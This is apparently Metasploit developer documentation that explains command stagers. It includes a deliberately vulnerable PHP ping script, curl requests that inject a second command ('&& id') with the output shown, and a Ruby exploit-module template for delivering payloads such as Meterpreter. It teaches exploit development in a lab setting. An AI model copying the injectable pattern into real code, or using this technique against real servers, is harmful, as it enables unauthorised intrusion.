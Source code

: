 Command stagers provide an easy way to write exploits against typical vulnerabilities such as command execution or code injection. There are currently eight different flavors of command stagers, each uses some sort of system command to save your payload onto the target machine, and execute it.

# The Vulnerability to Play with

The best way to explain how to use a command stager is probably by demonstrating it. Here we have a command injection vulnerability in PHP, something silly you actually might see in an enterprise-level software. The bug is that you can inject additional system commands in the system call for ping:

```php
<?php
   if ( isset($_GET["ip"]) ) {
      $output = system("ping -c 1 " . $_GET["ip"]);
      die($output);
   }
?>

<html>
<body>
  <form action = "ping.php" method = "GET">
   IP to ping: <input type = "text" name = "ip" /> <input type = "submit" />
  </form>
   </body>
</html>
```

Place the above PHP script (ping.php) on an Ubuntu + Apache + PHP server.

Under normal usage, this is how the script behaves - it just pings the host you specify, and shows
you the output:

```
$ curl "http://192.168.1.203/ping.php?ip=127.0.0.1"
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.017 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.017/0.017/0.017/0.000 ms
rtt min/avg/max/mdev = 0.017/0.017/0.017/0.000 ms
```

OK, now we can abuse that a little and execute another command (id):

```
$ curl "http://192.168.1.203/ping.php?ip=127.0.0.1+%26%26+id"
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.020 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.020/0.020/0.020/0.000 ms
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

See the www-data? That is the output for the second command we asked the script to execute. By doing that, we can also do something even more nasty - like writing a Meterpreter payload onto the target system, and execute it.


# The Msf::Exploit::CmdStager Mixin

Now let's talk about how to use a command stager to exploit the above script. There are a couple of steps you need to do:

**1. Include the Msf::Exploit::CmdStager mixin**

Although there are eight flavors of mixins/stagers, you only need to include Msf::Exploit::CmdStager when writing a Metasploit exploit. The mixin is basically an interface to all eight command stagers:

```ruby
include Msf::Exploit::CmdStager
```

**2. Declare your flavors**

To tell Msf::Exploit::CmdStager what flavors you want, you can add the ```CmdStagerFlavor``` info in the module's metadata. Either from the common level, or the target level.

**3. Create the execute_command method**

You also must create a ```def execute_command(cmd, opts = {})``` method in your module. This is what gets called by the CmdStager mixin when it kicks in. Your objective in this method is to inject whatever is in the ```cmd``` variable to the vulnerable code.

**4. Call #execute_cmdstager to begin**

And lastly, in your exploit method, call ```execute_cmdstager``` to begin the command stager.

**Msf::Exploit::CmdStager Template**

At the minimum, this is how your exploit should start when you're using the CmdStager mixin:

```ruby
require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote

  Rank = NormalRanking

  include Msf::Exploit::CmdStager
  include Msf::Exploit::Remote::HttpClient

  def initialize(info={})
    super(update_info(info,
      'Name'            => "Ping Command Injection Vulnerability Demo",
      'Description'     => %q{
        This exploits a command injection in our ping.php demo script.
      },
      'License'         => MSF_LICENSE,
      'Author'          => [ 'sinn3r' ],
      'References'      => [ [ 'URL', 'http://metasploit.com' ] ],
      'Platform'        => 'linux',
      'Targets'         => [ [ 'Linux', {} ] ],
      'Payload'         => { 'BadChars' => "\x00" },
      'CmdStagerFlavor' => [ 'echo' ]
      'Privileged'      => false,
      'DisclosureDate'  => "Jun 10 2016",
      'DefaultTarget'   => 0))
  end

  def execute_command(cmd, opts = {})
    # calls some method to inject cmd to the vulnerable code.
  end

  def exploit
    print_status("Exploiting...")
    execute_cmdstager
  end

end
```

As you can see, we have chosen the "echo" flavor as our command stager. We will explain more about
this later, but basically what it does is it writes our payload to /tmp and execute it.



# Flavors

## VBS Command Stager

## Certutil Command Stager

## Debug_write Command Stager

## Debug_asm Command Stager

## TFTP Command Stager

## Bourne Command Stager

## Echo Command Stager

## Printf Command Stager

